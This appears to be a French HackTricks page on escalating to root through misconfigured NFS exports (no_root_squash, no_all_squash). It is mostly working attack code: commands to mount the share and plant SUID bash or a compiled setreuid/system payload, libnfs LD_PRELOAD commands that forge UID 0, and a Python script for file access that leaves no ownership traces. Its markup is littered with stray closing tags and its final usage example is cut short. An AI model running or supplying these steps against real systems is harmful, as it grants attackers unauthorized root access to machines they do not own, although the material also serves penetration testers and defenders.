 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Lisez le _ **/etc/exports** _ fichier, si vous trouvez un répertoire configuré comme **no\_root\_squash**, alors vous pouvez **y accéder** **en tant que client** et **écrire à l'intérieur** de ce répertoire **comme** si vous étiez le **root** local de la machine.

**no\_root\_squash** : Cette option donne essentiellement l'autorité à l'utilisateur root sur le client d'accéder aux fichiers sur le serveur NFS en tant que root. Et cela peut entraîner de graves implications en matière de sécurité.

**no\_all\_squash :** Cela est similaire à l'option **no\_root\_squash** mais s'applique aux **utilisateurs non-root**. Imaginez que vous avez un shell en tant qu'utilisateur nobody ; vérifiez le fichier /etc/exports ; l'option no\_all\_squash est présente ; vérifiez le fichier /etc/passwd ; émulez un utilisateur non-root ; créez un fichier suid en tant que cet utilisateur (en montant via nfs). Exécutez le suid en tant qu'utilisateur nobody et devenez un utilisateur différent.

# Élévation de privilèges

## Exploit à distance

Si vous avez trouvé cette vulnérabilité, vous pouvez l'exploiter :

* **Monter ce répertoire** sur une machine cliente, et **en tant que root copier** à l'intérieur du dossier monté le binaire **/bin/bash** et lui donner des droits **SUID**, et **exécuter depuis la machine victime** ce binaire bash.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Monter ce répertoire** sur une machine cliente, et **en tant que root copier** à l'intérieur du dossier monté notre charge utile compilée qui abusent des permissions SUID, lui donner des droits **SUID**, et **exécuter depuis la machine victime** ce binaire (vous pouvez trouver ici quelques [charges utiles C SUID](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Notez que si vous pouvez créer un **tunnel de votre machine à la machine victime, vous pouvez toujours utiliser la version distante pour exploiter cette élévation de privilèges en tunnelant les ports requis**.\
Le truc suivant est au cas où le fichier `/etc/exports` **indique une IP**. Dans ce cas, vous **ne pourrez pas utiliser** en aucun cas l'**exploit distant** et vous devrez **abuser de ce truc**.\
Une autre exigence nécessaire pour que l'exploit fonctionne est que **l'exportation à l'intérieur de `/etc/export`** **doit utiliser le drapeau `insecure`**.\
\--_Je ne suis pas sûr que si `/etc/export` indique une adresse IP, ce truc fonctionnera_--
{% endhint %}

## Basic Information

Le scénario implique l'exploitation d'un partage NFS monté sur une machine locale, tirant parti d'un défaut dans la spécification NFSv3 qui permet au client de spécifier son uid/gid, ce qui peut permettre un accès non autorisé. L'exploitation implique l'utilisation de [libnfs](https://github.com/sahlberg/libnfs), une bibliothèque qui permet de forger des appels RPC NFS.

### Compiling the Library

Les étapes de compilation de la bibliothèque peuvent nécessiter des ajustements en fonction de la version du noyau. Dans ce cas spécifique, les appels système fallocate ont été commentés. Le processus de compilation implique les commandes suivantes :
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Réalisation de l'Exploitation

L'exploitation consiste à créer un simple programme C (`pwn.c`) qui élève les privilèges à root et exécute ensuite un shell. Le programme est compilé, et le binaire résultant (`a.out`) est placé sur le partage avec suid root, en utilisant `ld_nfs.so` pour falsifier l'uid dans les appels RPC :

1. **Compiler le code d'exploitation :**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Placer l'exploitation sur le partage et modifier ses permissions en falsifiant l'uid :**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Exécuter l'exploitation pour obtenir des privilèges root :**
```bash
/mnt/share/a.out
#root
```

## Bonus : NFShell pour un Accès Furtif aux Fichiers
Une fois l'accès root obtenu, pour interagir avec le partage NFS sans changer de propriétaire (pour éviter de laisser des traces), un script Python (nfsh.py) est utilisé. Ce script ajuste l'uid pour correspondre à celui du fichier accédé, permettant d'interagir avec des fichiers sur le partage sans problèmes de permission :
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Exécuter comme :
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
